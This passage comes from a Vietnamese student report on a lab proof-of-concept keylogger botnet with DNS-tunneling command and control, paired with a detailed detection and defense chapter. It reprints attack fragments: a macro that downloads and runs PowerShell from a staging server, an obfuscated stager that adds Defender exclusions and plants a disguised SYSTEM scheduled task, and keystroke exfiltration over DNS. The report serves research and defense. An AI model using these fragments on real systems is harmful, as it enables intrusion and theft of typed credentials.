STARTUPINFOA si{.cb=sizeof(si)}; si.dwFlags|=STARTF_USESTDHANDLES; si.hStdInput=_hChildStd_IN_Rd; si.hStdOutput=_hChildStd_OUT_Wr; si.hStdError=_hChildStd_ERR_Wr;
CreateProcessA(nullptr, (LPSTR)"cmd.exe /K CHCP <OEM>", nullptr,nullptr, TRUE, CREATE_NO_WINDOW, nullptr, nullptr, &si, &pi);
```

Các quyết định thiết kế như giới hạn kích thước chunk (ví dụ `max_len`), dùng hex thay vì Base64 để tránh ký tự không hợp lệ trong label DNS, và cơ chế mã trạng thái dựa trên octet đầu IP phản hồi đều nhằm đảm bảo tương thích chặt chẽ với ràng buộc DNS (label ≤ 63 ký tự, tổng tên ≤ 255 ký tự) và tăng độ bền kênh truyền trên các resolver khác nhau.

## 5. Vector lây nhiễm ban đầu

Phần này nối liền nền tảng lý thuyết về Macro/PowerShell với hiện thực triển khai. Mã VBA gốc trong `codeVBA_notObfuscate.txt` cho thấy chiến lược đơn giản nhưng hiệu quả: sử dụng `WScript.Shell` gọi PowerShell để tải và thực thi stager từ Staging Server, sau đó chạy tệp tải về:

```vb
' codeVBA_notObfuscate.txt (trích)
psCmd = "powershell -NoProfile -WindowStyle Hidden -Command " & _
		"""try { $code = (New-Object System.Net.WebClient).DownloadString('" & url & "'); Invoke-Expression $code; exit 0 } catch { exit 1 }"""
ws.Run psCmd, 0, True
```

Phiên bản đã làm rối trong `codeVBA.txt` sử dụng kỹ thuật mã hóa Base64 tự chế kết hợp XOR, tách chuỗi, và dựng tên COM/command từ bảng ký tự, nhằm né tránh phát hiện chữ ký. Ví dụ, đối tượng `WScript.Shell` được tái tạo qua chuỗi đã mã hóa thay vì literal:

```vb
' codeVBA.txt (trích)
Set w_e6647a94 = CreateObject(decode_b64_xor("NDAAEQoTF00wCwYPDw==", 99))
```

Stager PowerShell trong `powershell_obfuscate1.txt` áp dụng cấu trúc nén‑mã hóa: chuỗi base64 sau khi giải nén Deflate tạo thành script thực thi qua `iex`. Script còn tự nâng quyền nếu chưa có Administrator bằng cách tái khởi chạy PowerShell với `-Verb RunAs`, đồng thời ẩn cửa sổ và bỏ qua ExecutionPolicy. Đáng chú ý, script thêm thư mục làm việc vào danh sách loại trừ của Microsoft Defender (`Add-MpPreference -ExclusionPath ...`) – một kỹ thuật né tránh phòng thủ (MITRE ATT&CK T1562.001):

```powershell
# powershell_obfuscate1.txt (trích)
$cmd = "(nEW-OBjEct  Io.coMprEsSIon.deFlATeStREAm([IO.memorYsTreAm][cONVErT]::fROMbaSE64String('...'),[IO.cOmpRESSiON.cOmpREsSIONMOde]::dECompRESS)... )| iex"
Start-Process -FilePath "powershell" -ArgumentList $arg -Verb RunAs

# Hành vi né tránh và persistence (khái quát theo mã thực tế)
Add-MpPreference -ExclusionPath $pathToExclude
$taskName = "Check memory"
$taskDescription = "Periodic memory check task"
$action = New-ScheduledTaskAction -Execute $full
$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 30) -RepetitionDuration (New-TimeSpan -Days 9999)
$principal = New-ScheduledTaskPrincipal -UserId "NT AUTHORITY\SYSTEM" -LogonType ServiceAccount -RunLevel Highest
Register-ScheduledTask -TaskName $taskName -Action $action -Trigger $trigger -Principal $principal -Description $taskDescription
```

Nhiệm vụ chính của stager là tải payload cuối (client C++) về đường dẫn tạm hoặc hồ sơ người dùng, đổi tên hợp lệ và thực thi, đồng thời thiết lập cơ chế persistence bằng Scheduled Task. Cụ thể, script tạo tác vụ tên "Check memory" với mô tả "Periodic memory check task" nhằm ngụy trang hợp pháp; cấu hình trigger chạy lặp lại mỗi 30 phút để bảo đảm bot luôn được kích hoạt; và quan trọng nhất, đăng ký tác vụ chạy dưới quyền `NT AUTHORITY\SYSTEM` (RunLevel Highest) để có toàn quyền điều khiển và khó bị gỡ bỏ hơn so với chạy dưới quyền người dùng. Cách đặt tên và mô tả đánh lừa quản trị viên thiếu kinh nghiệm, trong khi đặc quyền SYSTEM giúp mã độc sống dai và bền bỉ.

Tổng hợp lại, kiến trúc PoC lựa chọn công nghệ vì các lý do cụ thể: C# cho server để tận dụng .NET socket và UI, C++ cho client vì nhu cầu hook cấp thấp và hiệu năng, Next.js/Vercel cho stager nhằm lẩn vào hạ tầng hợp pháp, và TailScale để đảm bảo kết nối lab an toàn, ổn định. Việc đóng gói dữ liệu trong DNS, chia mảnh và mã hóa phù hợp với ràng buộc giao thức, cùng chiến lược lệnh hai chiều qua TXT/A, cho phép mô phỏng thuyết phục một kênh C&C khó phát hiện chỉ bằng các phương pháp bề mặt.

---

# CHƯƠNG 3. TRIỂN KHAI VÀ DEMO HỆ THỐNG

## 1. Quy trình triển khai

Phần này đóng vai trò hướng dẫn thực hành tái tạo hệ thống PoC trong môi trường cách ly phục vụ nghiên cứu. Trình tự triển khai được phân rã thành các bước: chuẩn bị lab, cấu hình tầng DNS, biên dịch và khởi chạy máy chủ C&C, biên dịch – phân phối client. Mọi thao tác đều hạn chế tối đa can thiệp vào hạ tầng Internet thực nhằm tránh rủi ro ngoài phạm vi giáo dục.

### 1.1. Cài đặt môi trường Lab
Môi trường lab sử dụng ảo hóa (VMware/VirtualBox) gồm hai máy chính: (i) máy chủ C&C và DNS (Ubuntu Server hoặc Windows Server), (ii) máy nạn nhân Windows 10/11 với Microsoft Office, các công cụ giám sát như Wireshark và Process Monitor. Cả hai cài đặt TailScale, đăng nhập cùng tài khoản để hình thành một overlay network với IP ổn định. Điều này cho phép truy vấn DNS nội bộ đi qua kênh mã hóa và bỏ qua yêu cầu mở cổng router/NAT. Máy nạn nhân cấu hình DNS trỏ tới địa chỉ IP TailScale của máy chạy BIND9 để mọi truy vấn zone độc hại được điều phối chính xác.

### 1.2. Cấu hình DNS Infrastructure
Trên máy chủ C&C (giả sử Ubuntu), cài BIND9 rồi hiệu chỉnh `named.conf.options` để dịch vụ lắng nghe trên IP TailScale (ví dụ `100.x.y.z`) và giới hạn recursion nếu cần. Tạo zone file `example.com.zone` khai báo SOA và hai NS (`ns1.example.com`, `ns2.example.com`) trỏ về IP TailScale của C&C. Trong `named.conf.local`, khai báo zone authoritative cho `example.com` và, ở chế độ PoC, chuyển tiếp truy vấn (forward) hoặc dùng cơ chế view để chuyển thẳng gói UDP tới ứng dụng C# thẩm quyền cổng 53. Việc này bảo đảm tất cả truy vấn dạng `a/b/p/c.*.example.com` được ứng dụng xử lý thay vì rơi về phân giải Internet rộng. Cấu hình tối giản cần: SOA (serial thấp, TTL ngắn để quan sát nhanh), NS trỏ đúng địa chỉ, và tạm thời bỏ DNSSEC để giảm phức tạp.

### 1.3. Build và deploy C&C Server
Mở project C# trong Visual Studio / `dotnet build` để tạo bản thực thi. Giao diện WinForms cung cấp điều khiển trực quan: nhập domain, port 53 (yêu cầu quyền Administrator), đường dẫn log và địa chỉ IP. Khi nhấn Start, server bắt đầu lắng nghe UDP/53, xử lý truy vấn DNS, hiển thị log đến real‑time. Thông điệp trạng thái khởi động thể hiện domain và IP phục vụ kiểm tra nhanh. 

<!-- CHÈN HÌNH 1: GIAO DIỆN C&C SERVER ĐANG CHẠY VÀ HIỂN THỊ "LISTENING ON PORT 53" -->

### 1.4. Compile và package Client
Project C++ được biên dịch ở chế độ Release để giảm kích thước và dấu hiệu debug. Sau khi tạo `client.exe`, payload này được đưa lên Stager Server (ứng dụng Next.js trên Vercel) vào thư mục private để route `/api/download?file=client.exe` phục vụ tải về qua PowerShell. Trong demo thực tế do vector macro bị phát hiện (trình bày ở mục 2.1), phần tải tự động bị thay thế bằng thao tác thủ công: sao chép và thực thi trực tiếp trong PowerShell với Defender tạm vô hiệu hóa.

## 2. Kịch bản demo

Kịch bản minh họa chuỗi tấn công mô phỏng từ góc nhìn adversary (đỏ) và quan sát phòng thủ (xanh). Do điều kiện an toàn, một số bước bị điều chỉnh (ví dụ: manual execution) nhưng vẫn giữ nguyên logic dữ liệu – điều khiển.

### 2.1. Initial Infection via Macro
Kịch bản dự kiến: Người dùng mở tệp Excel lừa đảo (ví dụ `BaoGia.xlsm`) chứa macro downloader, nhấn “Enable Content”, macro gọi PowerShell tải stager và thực thi. Macro nguyên thủy (xem Chương 2) sử dụng `DownloadString` kết hợp `Invoke-Expression` – mẫu phổ biến trong các chiến dịch thật.

Kết quả thực tế: Trên Windows 10/11 với Microsoft Defender bật mặc định, tệp ngay khi lưu hoặc mở bị phát hiện và cách ly (ví dụ cảnh báo `Trojan:O97M/PowerShell`, `O97M/PoWLoad`). Điều này cho thấy signature và heuristic của Defender nhận diện hành vi macro downloader (WebClient + Exec). Đây không phải thất bại của PoC mà là dữ liệu minh chứng quan trọng về hiệu quả lớp bảo vệ đầu vào. 

Giải pháp lab: Để tiếp tục nghiên cứu các pha sau (DNS tunneling, keylogging, remote shell), stager PowerShell được trích xuất và thực thi thủ công trong một phiên PowerShell có Defender tạm thời vô hiệu hóa (Isolation + mục đích giáo dục). Việc ghi nhận rõ điều chỉnh này đảm bảo tính minh bạch.

<!-- CHÈN HÌNH 2: SCREENSHOT DEFENDER CẢNH BÁO VỀ FILE EXCEL -> QUARANTINE -->

### 2.2. Client Registration và C&C Connection
Sau khi stager chạy thủ công, nó tải `client.exe`, thực thi và khởi tạo thủ tục đăng ký DNS: gói khởi đầu `a.1.1.1.example.com` gửi đến resolver nội bộ, được forward tới C&C. Server phản hồi bằng địa chỉ IP mã hóa ConnID ở octet cuối. Client lưu ConnID, khởi tạo luồng hook bàn phím và luồng polling lệnh. Trên giao diện C&C, mục Client list xuất hiện dòng mới với ID, IP (TailScale hoặc NAT nội bộ) và thời điểm kết nối.

<!-- CHÈN HÌNH 3: GIAO DIỆN C&C HIỂN THỊ CLIENT MỚI -->
Wireshark trên máy nạn nhân cho thấy chuỗi truy vấn DNS với subdomain dài, gồm nhãn hex (dữ liệu keystroke hoặc chunk lệnh) xen kẽ các truy vấn TXT polling.

<!-- CHÈN HÌNH 4: WIRESHARK HIỂN THỊ TRUY VẤN DNS DẠNG a./b./p./c. -->

### 2.3. Keystroke Logging và Data Exfiltration
Người dùng giả định nhập vào Notepad: `username: admin / password: Password123!`. Hàm hook `process_key` ghi nhận từng phím, buffer theo kích thước `MAX_BUFFER` rồi đẩy vào hàng đợi gửi. Mỗi mảng dữ liệu được chuyển thành hex và nhúng trong truy vấn `b.<pkt>.<id>.<hex>.example.com`. Server giải mã, ghép mảnh, hiển thị chuỗi rõ trong bảng preview. Sự kiện này xác nhận pipeline thu thập – mã hóa – vận chuyển – giải mã hoạt động đầy đủ.

<!-- CHÈN HÌNH 5: TAB KEYLOGGER HIỂN THỊ CHUỖI TỔNG HỢP -->

### 2.4. Remote Shell Interaction
Qua UI, người điều khiển mở cửa sổ shell cho client. Lệnh `whoami` được phân mảnh thành chunk hex tối đa 60 ký tự, gửi từng phần trong phản hồi TXT cho gói polling `p`. Client ghép lệnh, thực thi trong tiến trình `cmd.exe /K` (không cửa sổ) và gửi kết quả đầu ra từng dòng qua truy vấn `c.<pkt>.<offset>.<id>.<hex>.example.com`. Server giải mã, đẩy ra giao diện shell. Kết quả `DESKTOP-NAME\user` xác nhận vòng điều khiển hai chiều thành công.

<!-- CHÈN HÌNH 6: REMOTE SHELL HIỂN THỊ LỆNH VÀ OUTPUT -->

## 3. Đánh giá kết quả

### 3.1. Hiệu quả của DNS Tunneling
Kênh DNS vận hành ổn định đối với dữ liệu văn bản ngắn: keystroke và output lệnh. Cơ chế mã hóa hex + chunk giúp tôn trọng ràng buộc độ dài nhãn (≤63) và tổng tên (≤255). Khả năng giấu lưu lượng trong luồng DNS hợp pháp chứng tỏ mức độ khó phát hiện khi chỉ dựa vào rule firewall cổng 53. Tuy nhiên, entropy cao của subdomain là đặc trưng mà các hệ thống phân tích nâng cao có thể tận dụng.

### 3.2. Độ ẩn danh và khả năng bypass
Thành công: Pha C&C qua DNS ít gây chú ý ở lớp giám sát thô (chỉ đếm truy vấn). Hạn chế: Vector Macro bị chặn sớm bởi Defender, phản ánh áp lực phòng thủ hiệu quả ở bước đầu. Điều này nêu bật thực tế: bỏ qua chuỗi initial access, các kỹ thuật phía sau dù tinh vi vẫn không phát huy nếu không vượt qua EPP/EDR ban đầu. PoC do đó minh họa khoảng cách giữa khả năng tấn công lý thuyết và thành công thực tế.

### 3.3. Độ ổn định của kênh C&C
Kênh hoạt động ổn với cơ chế retry đơn giản. Mất gói (UDP) hoặc chậm trễ mạng làm giảm throughput, nhưng không phá vỡ pipeline nhờ vòng lặp gửi lại và mã trạng thái IP (`200`, `201`, …). Kênh không phù hợp truyền file lớn hoặc phiên shell cần độ trễ thấp; thích hợp mô hình “low‑and‑slow” thu thập dần và điều khiển tối thiểu.

### 3.4. Performance Analysis
Client footprint thấp: hook bàn phím và DNS query tuần tự tiêu tốn ít CPU, bộ nhớ. Throughput mạng hạn chế do mỗi chunk yêu cầu một vòng truy vấn/ phản hồi; tổng thời gian truyền tăng tuyến tính theo số chunk. Đây là đánh đổi giữa độ ẩn mình và hiệu suất. Tối ưu tiềm năng: nén trước khi mã hóa hex, điều chỉnh kích thước chunk động theo phản hồi truncation, hoặc chuyển sang kỹ thuật multiplex trong một truy vấn với nhiều nhãn. 

Tổng quan, Chương 3 chứng thực PoC vận hành các pha cốt lõi (thu thập, vận chuyển, điều khiển) nhưng đồng thời phơi bày điểm yếu đầu vào (Macro). Điều này tạo nền thực tế cho Chương 4 tập trung chiến lược phát hiện và phòng chống ở nhiều tầng, đặc biệt nâng cao phân tích DNS và kiểm soát Macro/PowerShell.

---

# CHƯƠNG 4. PHƯƠNG PHÁP PHÁT HIỆN VÀ PHÒNG CHỐNG

Chương này chuyển trọng tâm từ góc nhìn tấn công sang góc nhìn phòng thủ (Blue Team), hệ thống hóa các kỹ thuật phát hiện và ngăn chặn trực tiếp đối ứng với hành vi đã quan sát trong Chương 2 (thiết kế) và Chương 3 (demo). Mỗi biện pháp được liên kết rõ với một kỹ thuật hay mẫu hành vi cụ thể của PoC, nhằm minh chứng nguyên tắc “phòng thủ theo chiều sâu” và tối ưu hóa xác suất phát hiện ở nhiều lớp.

## 1. Phát hiện DNS Tunneling

### 1.1 & 1.2. Network-based Detection và Đặc trưng Truy vấn DNS
Trong demo, client C++ tạo truy vấn tuần tự dạng `a.1.1.1.example.com`, `b.<pkt>.<id>.<hexdata>.example.com`, `p.<pkt>.<offset>.<id>.example.com` (TXT) và `c.<pkt>.<offset>.<id>.<hexchunk>.example.com`. Các đặc trưng sau là chỉ dấu (IoC) rõ rệt:

Độ dài và tính ngẫu nhiên subdomain: Các nhãn chứa chuỗi hex dài (ví dụ `b.23.4.7b657973...`) gia tăng entropy. Tên miền hợp pháp thường có nhãn ngắn, có nghĩa (www, api, cdn). Zeek có thể tính entropy `log2` trên nhãn; ngưỡng > 3.5–4.0 cho chuỗi hex thuần dài là tín hiệu.

Tần suất truy vấn (Query Frequency / Beaconing): Client gửi chuỗi truy vấn theo chu kỳ ngắn (vài trăm ms tới vài giây) đến cùng một FQDN gốc. So với hành vi người dùng (ít truy vấn lặp), mẫu “low‑and‑slow beacon” với đều đặn cao là điểm nổi bật trong log DNS dài hạn.

Phân bố loại bản ghi (Record Type Distribution): Tỷ lệ TXT tăng bất thường (dùng để nhận lệnh). Một host nội bộ với tỷ lệ TXT/A cao bất thường cho cùng domain trong khoảng thời gian hẹp là trọng điểm điều tra.

Kích thước gói / RDATA: Phản hồi TXT chứa chunk lệnh mã hex (được server phân mảnh) thường dài hơn phản hồi TXT thông thường (SPF, DKIM). Kích thước RDATA trung bình cao, độ biến thiên thấp (mỗi chunk ~60 ký tự hex) tạo mẫu dễ nhận diện.

TTL bất thường: Server đặt TTL ngắn (60s hoặc thấp hơn) để tăng tính realtime. Các domain hợp pháp CDN có TTL cao hơn hoặc phân bố đa dạng. Mẫu TTL đơn điệu + truy vấn lặp là tín hiệu bổ sung.

Mẫu đặt tên cấu trúc nhiều dấu chấm: Chuỗi cố định hóa tiền tố (`a`, `b`, `p`, `c`) tiếp sau là trường số và hex ghép, hiếm gặp ở lưu lượng bình thường. Bộ lọc regex có thể đánh dấu nhãn đầu bằng một ký tự đơn + chấm + số + chấm + số + chấm.

Công cụ hỗ trợ: Zeek (script phân tích `dns.log`), Suricata/Snort (signature), Arkime (phân tích PCAP index), Moloch, Security Onion tích hợp pipeline và dashboard entropy. Các hợp phần SIEM tiêu thụ log từ resolver để áp dụng correlation (ví dụ: tìm host tạo >X truy vấn TXT + entropy > ngưỡng).

Ví dụ Suricata rule cơ sở (minh họa) phát hiện subdomain hex dài cho domain kiểm soát:
```
alert dns $HOME_NET any -> $EXTERNAL_NET any (msg:"Possible DNS tunneling hex subdomain example.com"; dns.query; content:"example.com"; nocase; pcre:"/^[abpc]\.[0-9]{1,3}\.[0-9]{1,3}\.[a-f0-9]{30,}\./"; threshold:type limit, track by_src, count 10, seconds 60; classtype:bad-unknown; sid:400001; rev:1;)
```
Rule trên liên kết trực tiếp định dạng truy vấn PoC (`[loại].[pkt].[id].[hex]`). Tinh chỉnh pcre, bổ sung phiên bản cho TXT (`p.`) không có hex dài (nhận lệnh) bằng thống kê tần suất.

Zeek pseudo-script tính entropy và đánh dấu:
```
event dns_request(c: connection, q: string) {
	local labels = split(q, /\./);
	for (i in labels) if (|labels[i]| > 15) {
		local e = entropy(labels[i]);
		if (e > 3.8 && /[a-f0-9]{20,}/ in labels[i])
			print fmt("[DNS-TUNNEL] %s high-entropy label %s (H=%.2f)", q, labels[i], e);
	}
}
```

### 1.3. Machine Learning Approaches
Các đặc trưng (features) khả thi trích từ log DNS: (i) Entropy nhãn cao nhất; (ii) Trung bình độ dài nhãn; (iii) Tỷ lệ truy vấn TXT/A so với tổng; (iv) Tần suất truy vấn domain đơn lẻ trong sliding window; (v) Phân phối TTL (độ lệch chuẩn thấp); (vi) Tỷ lệ ký tự hex trong nhãn dài; (vii) Khoảng cách thời gian giữa truy vấn liên tiếp (variance thấp). Bộ phân loại Random Forest / Gradient Boosting xử lý tốt kết hợp đặc trưng phi tuyến; pipeline gồm tiền xử lý (z-score normalization), huấn luyện với tập dữ liệu gồm phiên DNS bình thường (web, mail) và phiên giả lập tunneling (PoC + Mẫu công cụ iodine, dnscat2). Mô hình phục vụ làm lớp “risk scoring” trong SOC: truy vấn vượt ngưỡng điểm rủi ro > T sẽ kích hoạt điều tra thủ công hoặc tự động sinkhole.

## 2. Phát hiện Keylogger

### 2.1 & 2.2. Host-based Detection và API Monitoring
Hành vi cốt lõi: tiến trình `client.exe` gọi `SetWindowsHookEx(WH_KEYBOARD_LL)` thiết lập global low-level hook, sau đó định kỳ thực hiện DNS queries. EDR hoặc Sysmon (Event ID 1 process creation + Event ID 22 DNS query) có thể tương quan: tiến trình không thuộc danh sách hợp lệ thiết lập hook bàn phím + tạo lưu lượng DNS bất thường. API monitoring: Hook thư viện `user32.dll` và ghi nhận idHook=13 (`WH_KEYBOARD_LL`) với hThread=0 (system-wide). Công cụ như Process Monitor (filter Operation=RegOpenKey, WriteFile, và Call Stack chứa `SetWindowsHookEx`) nâng cao khả năng phát hiện.

Ví dụ cây call dễ quan sát:
```
client.exe -> user32.dll!SetWindowsHookExW(idHook=WH_KEYBOARD_LL)
client.exe -> dnsapi.dll!DnsQuery_A("b.12.3.<hex>.example.com", TYPE_A)
```
Chuỗi trên đủ mạnh để tạo alert “Suspicious keyboard hook + DNS exfiltration pattern”.

### 2.3. Behavioral Analysis
Keylogger PoC không ghi file mà gửi trực tiếp, nhưng vẫn buffer tạm; phòng thủ có thể dùng: (i) Phân tích thời gian sống hook (hook tồn tại dai dẳng mà không thuộc chương trình trợ năng hợp pháp), (ii) Tỷ lệ ký tự hợp lệ ASCII trong chuỗi gửi (username/password pattern), (iii) Tần suất DNS tương quan ngay sau sự kiện bàn phím nhiều ký tự (burst typing => nhanh chóng xuất hiện truy vấn `b.`). Machine learning ở endpoint (sequence modeling) có thể phát hiện mối quan hệ “keystroke burst → outbound DNS with hex label”. Giảm false positive bằng whitelisting ứng dụng chính danh (IDE, key remapper, screen recorder).

## 3. Phát hiện Botnet C&C

### 3.1. Network Traffic Analysis
Đặc điểm PoC: beaconing đều đặn, domain đơn lẻ, chuỗi truy vấn xen kẽ A/TXT. Trên tập log dài (24h), đồ thị số truy vấn vs. thời gian thể hiện pattern hình răng cưa đều, khác lưu lượng người dùng vốn phân bố theo hoạt động web/phần mềm. Kết hợp NetFlow: host tạo nhiều lưu lượng UDP/53 ra ngoài nhưng ít TCP/80/443 liên quan – điểm bất thường.

### 3.2. Endpoint Detection and Response (EDR)
EDR dựng kill chain rõ ràng:
```
Excel.exe
	└── powershell.exe (-NoProfile -WindowStyle Hidden ... DownloadString Invoke-Expression)
				├── Network: HTTPS GET /api/download?file=Service.ps1 (Vercel)
				├── File: Writes client.exe
				├── Persistence: Creates Scheduled Task "Check memory" (runs as SYSTEM)
				└── client.exe
							├── API: SetWindowsHookExW(WH_KEYBOARD_LL)
							├── Network: Repeated DnsQuery_A/TXT example.com
							└── Threads: senderThread, senderBotnetThread
```
EDR cảnh báo đa điểm: PowerShell tải mã động (AMSI log), viết thực thi mới, tạo Scheduled Task (giao tiếp Dịch vụ Task Scheduler qua RPC hoặc ghi tạo tác vụ tại `C:\Windows\System32\Tasks`), thiết lập hook, DNS bất thường. Nhật ký Windows Task Scheduler (Event ID 106 – Task Registered) là nguồn dữ liệu quan trọng để xác thực hành vi persistence. Kết hợp timeline tạo báo cáo sự cố giàu ngữ cảnh, cung cấp dữ liệu IR nhanh chóng triệt tiêu tiến trình và thu thập artifact.

## 4. Giải pháp phòng chống

### 4.1. Network Security Controls
DNS Filtering / Sinkholing: Đăng ký domain tấn công vào blacklist nội bộ; truy vấn → reply controlled IP (sinkhole) để ghi nhận và vô hiệu hóa kênh C&C. Dịch vụ như Cisco Umbrella, Quad9, Cloudflare Security (1.1.1.2) bổ sung danh sách danh tiếng. Khi phát hiện domain mới có entropy cao, tự động chuyển vào sinkhole và mở ticket điều tra.

IDS/IPS Signatures: Áp dụng rule Suricata (ví dụ ở mục 1) kết hợp threshold tần suất. Mở rộng rule để phát hiện TXT dài liên tục:
```
alert dns $HOME_NET any -> $EXTERNAL_NET any (msg:"Suspicious repeated TXT DNS tunneling"; dns.query; content:"example.com"; nocase; dns.query; pcre:"/^p\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\./"; threshold:type both, track by_src, count 20, seconds 120; sid:400002; rev:1;)
```

### 4.2. Endpoint Protection
Macro Security: GPO cấu hình “Block macros from running in Office files from the Internet” và yêu cầu ký số (signed macros). Chính sách này trực tiếp vô hiệu vector ban đầu PoC.

PowerShell Restrictions: Thiết lập ExecutionPolicy `AllSigned`, kích hoạt Constrained Language Mode qua Device Guard, bật Script Block Logging và Module Logging để ghi nhận `DownloadString`, `Invoke-Expression`, chuỗi nén/giải nén. AMSI (Antimalware Scan Interface) cho phép AV quét nội dung script giải mã runtime.

Application Whitelisting: AppLocker / WDAC chỉ cho phép thực thi trong thư mục hệ thống hoặc ký số tin cậy; `client.exe` ngoại lai bị chặn trước khi cài hook. Kết hợp kiểm soát “deny unsigned in user profile paths”.

### 4.3. Security Monitoring
SIEM Correlation: Quy tắc: “Process = PowerShell + Network to staging domain + File create *.exe + Scheduled Task creation (SYSTEM) + Subsequent DNS high-entropy queries” → High severity alert. Dùng MITRE ATT&CK mapping: Initial Access (T1566), Execution (T1059.001), Persistence (T1053.005), Credential Access (T1056.001), Command and Control (T1071.004), Defense Evasion (T1562.001). Dashboard hiển thị top domains entropy > ngưỡng, top hosts TXT ratio, process hooking events; bổ sung nguồn sự kiện Task Scheduler (ID 106) và hành vi Defender exclusion.

### 4.4. User Awareness Training
Huấn luyện định kỳ: minh họa rủi ro “Enable Content” với ví dụ macro PoC bị Defender chặn; thực hành nhận diện email lừa đảo và tài liệu bất thường. Gamification (phishing simulations) tạo phản hồi hành vi tích cực. Giảm khả năng succcess vector macro.

## 5. Đề xuất giải pháp tổng hợp

Defense-in-Depth: Chuỗi kỹ thuật PoC bị vô hiệu ở nhiều điểm: Macro bị chặn (Endpoint), nếu lọt qua, PowerShell logging/AMSI + ExecutionPolicy phát hiện; nếu tiếp tục, DNS anomaly + IDS signature đánh dấu; nếu vẫn tồn tại, EDR kill chain correlation cảnh báo. Mỗi lớp độc lập giảm phụ thuộc vào một cơ chế đơn lẻ.

Incident Response Playbook (rút gọn): (1) Xác thực alert (entropy DNS + EDR hook). (2) Cô lập host (quarantine mạng). (3) Thu thập artifact: macro file, PowerShell transcript, client.exe, PCAP DNS. (4) Phân tích mã (detonation sandbox). (5) Săn mở rộng: truy vấn domain tương tự trong 30 ngày. (6) Remediation: xóa persistence, reset mật khẩu lộ lọt, cập nhật blocklist. (7) Lessons learned: cập nhật rule Suricata, mẫu entropy, đào tạo người dùng.

Continuous Monitoring: Thiết lập pipeline tự động cập nhật mô hình ML DNS theo dữ liệu mới; định kỳ (tuần/tháng) đánh giá tỷ lệ false positive; threat hunting: truy vấn dài >50 ký tự trong 7 ngày chưa phân loại; red team simulation định kỳ để kiểm tra hiệu lực Macro policy và whitelisting. Kết hợp dashboard SLO: Thời gian trung bình phát hiện (MTTD), thời gian phản ứng (MTTR), tỷ lệ domain high-entropy được xử lý trong <24h.

Kết luận chương: Phòng thủ hiệu quả không triệt tiêu nhu cầu nghiên cứu tấn công; trái lại, việc hiểu rõ chuỗi PoC cung cấp tham số chính xác cho cơ chế phát hiện đa lớp. Mapping hành vi PoC → biện pháp phòng vệ cụ thể giúp hiện thực hóa mục tiêu đề tài: chuyển kiến thức tấn công thành năng lực phòng thủ đo lường được.

---

# KẾT LUẬN VÀ HƯỚNG PHÁT TRIỂN

## 1. Tổng kết các kết quả đạt được

Dự án đã xây dựng thành công một hệ thống Proof‑of‑Concept (PoC) hoàn chỉnh, mô phỏng đầy đủ chuỗi tấn công từ xâm nhập ban đầu bằng Macro đến triển khai stager PowerShell, thiết lập/kéo dài hiện diện và vận hành kênh C&C ẩn dựa trên DNS tunneling để điều khiển một keylogger C++ kèm remote shell. Ở góc độ nghiên cứu (Red Team), PoC chứng minh rõ tính khả thi của DNS như một kênh “low‑and‑slow” có độ che giấu cao trước các thiết bị kiểm soát lớp bề mặt khi thiếu cơ chế giám sát sâu. Ở góc độ phòng thủ (Blue Team), việc giải phẫu cơ chế PoC đã trích xuất được hệ chỉ dấu IoC ở cả tầng mạng (entropy, tần suất, phân bố bản ghi, TTL) và tầng endpoint (API hook `WH_KEYBOARD_LL`, chuỗi tiến trình Excel→PowerShell→client, DNS bất thường). Trên nền đó, báo cáo đề xuất một chiến lược phòng thủ theo chiều sâu mang tính hệ thống: chính sách macro và PowerShell, whitelisting thực thi, lọc/sinkhole DNS, chữ ký IDS/IPS, tương quan SIEM và quy trình phản ứng.

## 2. Hạn chế và thách thức

Hạn chế nổi bật là khả năng bypass Antivirus/EDR ở pha đầu: kỹ thuật macro downloader phổ biến bị Microsoft Defender phát hiện và chặn ngay trong lab, cho thấy trong thực tiễn chuỗi tấn công khó vượt qua tuyến phòng thủ đầu vào nếu không có kỹ thuật né tránh tinh vi hơn. Về hiệu năng, DNS tunneling có băng thông thấp và độ trễ cao, phụ thuộc UDP dễ mất gói; phù hợp gián đoạn dữ liệu nhỏ và điều khiển tối thiểu hơn là tương tác real‑time hay truyền tệp lớn. Về môi trường, toàn bộ thử nghiệm diễn ra trong lab được kiểm soát; các yếu tố doanh nghiệp như proxy HTTP/DNS, kiến trúc mạng phức tạp và nhiều lớp kiểm soát bổ sung có thể ảnh hưởng đáng kể đến hành vi và khả năng vận hành.

## 3. Hướng phát triển

### 3.1. Cải tiến kỹ thuật evasion (Red Team)

Nâng cấp vector lây nhiễm theo các kỹ thuật đương đại khó bị phát hiện hơn như file LNK, ISO/IMG gắn scriptlet, hoặc VBA stomping/obfuscation tiên tiến; nghiên cứu né tránh EDR bằng kỹ thuật direct syscalls/unhooking có kiểm soát và sử dụng crypter/packer tùy biến để biến đổi chữ ký nhị phân. Đa dạng hóa kênh C&C ngoài DNS (ICMP tunneling, dịch vụ hợp pháp như Telegram/Discord/Drive) để so sánh đặc trưng phát hiện giữa các kênh.

### 3.2. Mở rộng detection capabilities (Blue Team)

Hiện thực hóa mô hình máy học cho DNS dựa trên đặc trưng entropy/độ dài/tần suất/tỷ lệ TXT, triển khai ở pipeline Zeek–Kafka–ML để cảnh báo thời gian thực; tích hợp memory forensics ở endpoint nhằm săn tìm cấu trúc hook và buffer bàn phím trong tiến trình nghi vấn; xây dựng playbook threat hunting giả thuyết “keylogger dùng DNS tunneling” và các truy vấn tương quan trong SIEM để giảm thời gian phát hiện.

### 3.3. Automated response mechanisms (Purple Team/SOAR)

Phát triển playbook SOAR tự động hóa các bước phản ứng khi cảnh báo DNS tunneling/EDR được kích hoạt: cô lập máy nghi ngờ bằng API EDR, bổ sung domain vào DNS firewall/sinkhole, tạo ticket IR kèm bối cảnh (process tree, PCAP rút gọn, mẫu truy vấn, timeline), và vòng phản hồi cập nhật chữ ký/feature cho các mô hình phát hiện. Các số đo hiệu năng như MTTD/MTTR, tỷ lệ xử lý domain entropy cao trong 24 giờ cần được theo dõi để cải tiến liên tục.

Khép lại, đề tài khẳng định giá trị học thuật của nghiên cứu tấn công phục vụ phòng thủ: hiểu biết chi tiết về kỹ thuật keylogging, botnet C&C qua DNS và chuỗi triển khai thực tế là điều kiện tiên quyết để thiết kế các biện pháp phát hiện – ứng phó hiệu quả, có thể kiểm chứng và mở rộng. PoC không nhằm mục đích khai thác ngoài thực tế, mà là nền tảng tham chiếu giúp các đội Blue Team nâng cấp năng lực phòng vệ theo chiều sâu trước các mối đe dọa ngày càng tinh vi.

---

